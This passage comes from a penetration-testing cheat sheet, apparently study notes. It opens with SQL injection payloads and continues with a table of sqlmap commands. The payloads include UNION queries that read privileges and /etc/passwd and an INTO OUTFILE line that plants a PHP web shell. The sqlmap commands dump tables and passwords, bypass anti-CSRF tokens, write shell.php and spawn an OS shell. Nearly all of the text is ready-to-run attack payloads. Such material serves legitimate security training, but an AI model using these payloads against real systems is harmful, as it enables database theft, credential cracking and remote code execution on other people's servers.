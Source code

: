 | `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

<a id="18-sqlmap-essentials"></a>
### 18. SQLMap Essentials

| **Command**                                                  | **Description** |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu |
| `sqlmap -hh`                                                 | View the advanced help menu |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap` |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass |
| `sqlmap --list-tampers`                                      | List all tamper scripts |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell |
